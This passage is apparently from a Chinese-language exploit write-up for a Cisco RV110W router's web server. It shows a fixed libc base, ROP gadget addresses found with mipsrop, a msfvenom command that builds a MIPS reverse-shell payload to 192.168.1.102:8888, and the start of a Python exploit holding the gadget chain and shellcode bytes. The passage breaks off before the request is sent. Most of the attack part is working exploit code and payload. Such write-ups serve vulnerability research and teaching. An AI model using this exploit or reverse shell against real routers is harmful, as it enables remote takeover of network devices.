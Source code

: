     思科的这个设备，httpd进程的libc基址就是2af98000，无论你是重启进程，还是升级版本，这个基址都不变

    问了常老师，再次猜测可能是为了效率，编译的时候就把内核的这个功能干掉了，或者当前平台压根就不支持这个功能。先存疑，总之我们发现动态库的基址都是不变的，故我们可以使用程序加载的动态库中的gadget。

于是我们使用mipsrop来查找gadget
mipsrop是ida的比较好用的一个插件

    mipsrop.help() #用来查看用法
    mipsrop.stackfinders() # 跳转到栈所示地址的gadget

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-2-7-RV110W%E8%B7%AF%E7%94%B1%E5%99%A8%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/26.png)

这两天gadget是有用的

    |  0x000257A0  |  addiu $a0,$sp,0x58+var_40  |  jalr  $s0  |
    |  0x0003D050  |  move $t9,$a0  |  jalr  $a0  |


接下来是编写shellcode

编写shellcode可以使用msf中的msfvenom来编写

使用如下命令

    msfvenom -p linux/mipsle/shell_reverse_tcp  LHOST=192.168.1.102 LPORT=8888 --arch mipsle --platform linux -f py -o shellcode.py 

可以看到shellcode.py中就有shellcode
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-2-7-RV110W%E8%B7%AF%E7%94%B1%E5%99%A8%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/27.png)


##### exp


    import requests
    from pwn import *

    context(arch='mips',endian='little',os='linux')

    libc = 0x2af98000
    jmp_a0 = libc + 0x0003D050  # move  $t9,$a0             ; jalr  $a0
    jmp_s0 = libc + 0x000257A0  # addiu $a0,$sp,0x38+var_20 ; jalr  $s0
    buf =  b""
    buf += b"\xfa\xff\x0f\x24\x27\x78\xe0\x01\xfd\xff\xe4\x21\xfd"
    buf += b"\xff\xe5\x21\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x01"
    buf += b"\x01\x01\xff\xff\xa2\xaf\xff\xff\xa4\x8f\xfd\xff\x0f"
    buf += b"\x34\x27\x78\xe0\x01\xe2\xff\xaf\xaf\x22\xb8\x0e\x3c"
    buf += b"\x22\xb8\xce\x35\xe4\xff\xae\xaf\x01\x66\x0e\x3c\xc0"
    buf += b"\xa8\xce\x35\xe6\xff\xae\xaf\xe2\xff\xa5\x27\xef\xff"
    buf += b"\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24\x0c\x01\x01"
    buf += b"\x01\xfd\xff\x11\x24\x27\x88\x20\x02\xff\xff\xa4\x8f"
    buf += b"\x21\x28\x20\x02\xdf\x0f\x02\x24\x0c\x01\x01\x01\xff"
    buf += b"\xff\x10\x24\xff\xff\x31\x22\xfa\xff\x30\x16\xff\xff"
    buf += b"\x06\x28\x62\x69\x0f\x3c\x2f\x2f\xef\x35\xec\xff\xaf"
    buf += b"\xaf\x73\x68\x0e\x3c\x6e\x2f\xce\x35\xf0\xff\xae\xaf"
    buf += b"\xf4\xff\xa0\xaf\xec\xff\xa4\x27\xf8\xff\xa4\xaf\xfc"
    buf += b"\xff\xa0\xaf\xf8\xff\xa5\x27\xab\x0f\x02\x24\x0c\x01"
    buf += b"\x01\x01"

